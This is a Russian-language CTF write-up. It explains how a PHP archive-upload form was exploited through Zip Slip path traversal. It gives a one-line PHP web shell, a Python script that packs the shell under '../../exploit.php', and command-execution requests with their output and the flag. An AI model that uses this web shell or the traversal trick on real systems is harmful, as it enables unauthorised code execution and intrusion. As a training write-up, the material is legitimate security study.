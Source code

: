 # Доказательство запугиванием: Write-up

Чтение HTML-кода страницы наискосок показывает, что временное ограничение устроено через JavaScript на стороне клиента, и время начала никуда не посылается, так что, если мы не справимся за 5 часов, о времени нам беспокоиться не стоит.

Условия задач выглядят адекватно, а задание не по стеганографии, так что покекаем, отложим их и сосредоточимся на единственном, что осталось — форме отправки решений.

Если залить какой-нибудь случайный не-ZIP-файл, обнаружится, что, во-первых, идет переадресация на `/index.php`, то есть сайт написан на PHP, а во-вторых, выдается ошибка «Код ошибки 19 при распаковке ZIP». Поиск «php zip error code 19» в гугле подсказывает, что это в самом деле код ошибки, который выдет `ZipArchive::open`.

Если залить нормальный архив, то выведется список с ссылками на загруженные файлы. Первая реакция — залить архив с PHP-шеллом. Все бы хорошо, но скрипт заливается, а как PHP не выполняется. Видимо, скрипты исполняются только в корне сайта.

Как залить эксплоит в корень? Заметим, что если залить частично некорректный архив (например, побитый или запароленный), выведется ошибка вроде:

```
Warning: copy(zip:///tmp/phpnRTN9i#file): failed to open stream: operation failed in /var/www/html/_/index.php on line 121
```

При использовании `ZipArchive::extractTo` ошибка бы выглядела не так, и уж точно не включала бы путь `zip:///tmp/phpnRTN9i#file`, поэтому распаковка архива, вероятно, реализована руками, а значит, есть надежда на известные уязвимости. Поиск в гугле фразы «zip archive vulnerability» выдает в числе первых описание [ZIP slip](https://github.com/snyk/zip-slip-vulnerability).

Идея уязвимости заключается в том, что путь до файла в архиве может быть в общем-то произвольной строкой, в том числе содержащей `..`, и если распаковка написана неаккуратно, можно заставить программу распаковать скрипт не в нужную папку, а по произвольному пути. Например, если создать архив, в котором эксплоит назван `../../exploit.php`, то при его распаковке, вероятно, эксплоит создастся в корне сайта.

Создать такой архив можно, например, используя Python:

`exploit.php`:

```php
<pre><?php passthru($_GET["command"]); ?></pre>
```

`create_zip.py`:

```python
import zipfile
with zipfile.ZipFile("exploit.zip", "w") as archive:
    archive.write("exploit.php", "../../exploit.php")
```

И в самом деле, файл успешно заливается, и появляется возможность выполнить произвольные команды. Например:

```
GET https://<host>/<token>/exploit.php?command=ls+-la+/
```

```
total 60
drwxr-xr-x   1 root   root     160 Dec 18 12:42 .
drwxr-xr-x   1 root   root     160 Dec 18 12:42 ..
drwxr-xr-x   2 root   root    4096 Dec 18 12:40 app
drwxr-xr-x   2 root   root    4096 Oct 25 13:35 bin
drwxr-xr-x   2 root   root    4096 Sep  3 12:10 boot
drwxr-xr-x   1 root   root     320 Dec 18 12:42 dev
drwxr-xr-x   1 root   root      60 Dec 18 12:42 etc
-rw-r--r--   1 nobody nogroup   48 Dec 18 12:42 flag
drwxr-xr-x   2 root   root    4096 Sep  3 12:10 home
drwxr-xr-x   8 root   root    4096 Oct 25 13:31 lib
drwxr-xr-x   2 root   root    4096 Oct 24 00:00 lib64
drwxr-xr-x   2 root   root    4096 Oct 24 00:00 media
drwxr-xr-x   2 root   root    4096 Oct 24 00:00 mnt
drwxr-xr-x   2 root   root    4096 Oct 24 00:00 opt
dr-xr-xr-x 338 nobody nogroup    0 Dec 18 12:42 proc
drwx------   2 root   root    4096 Nov  3 17:26 root
drwxr-xr-x   1 root   root      60 Oct 25 13:35 run
drwxr-xr-x   1 root   root    4096 Oct 25 13:35 sbin
drwxr-xr-x   2 root   root    4096 Oct 24 00:00 srv
drwxr-xr-x   2 root   root    4096 Sep  3 12:10 sys
drwxrwxrwt   1 root   root      40 Dec 18 12:42 tmp
drwxr-xr-x   1 root   root    4096 Oct 24 00:00 usr
drwxr-xr-x   1 root   root      80 Oct 25 13:31 var
```

```
GET https://<host>/<token>/exploit.php?command=cat+/flag
```

```
ugra_this_aint_funny_this_is_cursed_nbynv7yv0cn4
```

Флаг: **ugra_this_aint_funny_this_is_cursed_nbynv7yv0cn4**
